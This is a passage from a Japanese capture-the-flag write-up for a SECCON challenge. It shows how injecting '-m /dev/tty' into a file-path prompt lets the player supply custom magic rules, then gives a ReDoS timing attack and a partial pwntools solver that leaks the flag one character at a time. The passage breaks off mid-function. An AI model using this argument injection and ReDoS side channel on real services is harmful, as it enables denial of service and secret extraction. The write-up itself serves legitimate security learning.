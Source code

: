 実は`/dev/tty`や`/proc/self/fd/0`などを使って任意文字列をmagic fileとして指定可能です。

`-m /dev/tty /flag.txt`を入力後に
```
0 string SECCON{x foo
```
を入力してctrl+dをすることで、`SECCON{x`がフラグのprefixであるかどうかの判定ができそうな雰囲気です。

ただし、与えられたbashスクリプトはfileコマンドの結果を何も出力しないため、もう1ステップなにかをする必要がありそうです。

#### Step 2: A time-based attack with ReDoS

`man magic`を確認すると
```
              regex       A regular expression match in extended POSIX regular expression syntax (like egrep).
                          Regular expressions can take exponential time to process, and their performance is
                          hard to predict, so their use is discouraged.  When used in production environments,
                          their performance should be carefully checked.  The size of ... snip ...
```
という、"いかにも"利用できそうなものがあります。

はい、ReDoSが可能です。

あとはがんばってReDoSでtime-based attackしてフラグを先頭から1文字ずつ確定すればOKです。

### Solver

```python
import string
import os
import pwn
import time

REDOS_POWER = 20
TIMEOUT = 20

SSH_CMD = f"sshpass -p ctf ssh -oStrictHostKeyChecking=no -oCheckHostIP=no ctf@{os.getenv('SECCON_HOST')} -p {os.getenv('SECCON_PORT')}"


def get_time(rule: str) -> bool:
    io = pwn.process(SSH_CMD, shell=True, stdin=pwn.PTY, raw=False)
    io.sendlineafter(b"Input a file path: ", b"-m /dev/tty /flag.txt")
    io.sendline(rule.encode())
    for i in range(REDOS_POWER):
        io.sendline(f">0 regex \\^(((((((((((((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*@ ReDoS-{i}".encode())
    io.recvuntil(f"ReDoS-{REDOS_POWER - 1}".encode(), timeout=TIMEOUT)
    io.send("\x04")  # Ctrl+D

    t1 = time.time()
    io.recvall(timeout=TIMEOUT)
    t2 = time.time()
    io.close()
    return t2 - t1


def get_rule(index: int, next_chars: str) -> str:
    def escape(s): return s.replace("{", "\\\\{").replace("}", "\\\\}")
    expr = "".join([
        "\\^",
        "[",
        escape(next_chars),
        "]"
```